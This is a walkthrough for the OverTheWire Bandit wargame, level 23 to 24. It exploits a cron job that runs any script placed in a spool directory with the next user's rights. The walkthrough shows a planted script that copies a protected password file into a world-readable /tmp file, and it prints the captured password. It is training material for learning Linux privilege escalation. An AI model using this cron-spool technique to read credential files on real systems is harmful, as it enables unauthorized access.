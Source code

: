 - `cd`

```
bandit23@bandit:~$ cd /etc/cron.d
```

- `ls`

```
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
```

- `cat`

```
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

The script shows that every file in the path of `/var/spool/$myname` will be executed once and deleted after 60 seconds.
So we need to create a script which fetches the password from `/etc/bandit_pass/bandit24` and store it in a temp file.

First we have to create a directory.

- `mkdir` 

```
bandit23@bandit:~$ mkdir /tmp/foo
bandit23@bandit:~$ cd /tmp/foo
bandit23@bandit:/tmp/foo$
```

Then we create the script file and set permission to **777** (full access).

- `touch, chmod`

```
bandit23@bandit:/tmp/foo$ touch script.sh
bandit23@bandit:/tmp/foo$ chmod 777 script.sh
bandit23@bandit:/tmp/foo$ ls -al script.sh
-rwxrwxrwx 1 bandit23 root 0 Feb  2 11:21 script.sh
```

Write the content of the script using a command-line text editor such as **vim**.

- `vim`

```
bandit23@bandit:/tmp/foo$ vim script.sh
```

The content of the script is:

```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/foo/password
```

Again, we need to create the `/tmp/foo/password` file and grant everyone read/write permission.

```
bandit23@bandit:/tmp/foo$ touch password
bandit23@bandit:/tmp/foo$ chmod 666 password
bandit23@bandit:/tmp/foo$ ls -al password
-rw-rw-rw- 1 bandit23 root 0 Feb  2 11:22 password
```

Copy the script to `/var/spool/bandit24` and wait for the script to run automatically.

- `cp`

```
bandit23@bandit:/tmp/foo$ cp script.sh /var/spool/bandit24/

bandit23@bandit:/tmp/foo$ ls -al /var/spool/bandit24/script.sh
-rwxr-xr-x 1 bandit23 bandit23 63 Feb  2 11:23 /var/spool/bandit24/script.sh
```

[**WAIT FOR A MINUTE**...]

```
bandit23@bandit:/tmp/foo$ ls -al /var/spool/bandit24/script.sh
ls: cannot access '/var/spool/bandit24/script.sh': No such file or directory
```

The script file is no longer existed. That means it has been executed.

- `cat`

```
bandit23@bandit:/tmp/foo$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

`ssh bandit24@bandit.labs.overthewire.org -p 2220`